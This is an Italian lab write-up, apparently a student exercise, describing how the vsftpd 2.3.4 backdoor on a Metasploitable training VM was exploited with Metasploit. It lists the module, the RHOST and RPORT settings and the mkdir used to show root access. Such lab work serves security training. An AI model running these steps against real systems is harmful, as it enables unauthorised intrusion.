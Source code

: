 L’obiettivo dell’esercizio era quello di condurre un attacco exploit al servizio vsftpd versione 2.3.4 in esecuzione su una macchina virtuale Metasploitable, utilizzando Metasploit. L’intento era ottenere una sessione interattiva e, successivamente, creare una cartella nella directory root per verificare l’accesso.
Avvio di Metasploit: Per avviare Metasploit, è stato eseguito il comando:msfconsole
Ricerca dell’Exploit: È stato ricercato un exploit per vsftpd tramite il comando:search vsftpd
Dalla lista, è stato selezionato il modulo exploit/unix/ftp/vsftpd_234_backdoor, specifico per la versione vulnerabile 2.3.4 di vsftpd

Dopo aver selezionato l'exploit, il modulo è stato caricato con il comando:use exploit/unix/ftp/vsftpd_234_backdoor
poi imposto l'ip del target
  
set RHOST 192.168.1.231

e poi la porta

set RPORT 21

È stato poi verificato che tutte le opzioni fossero configurate correttamente con il comando: show options

avvio il tutto con exploit o usando run

L’attacco ha cercato di sfruttare la backdoor conosciuta della versione 2.3.4 di vsftpd.

Dopo faccio ls per verificare la presenza della cartella test_metasploit e vado a creala con mkdir test_metasploit
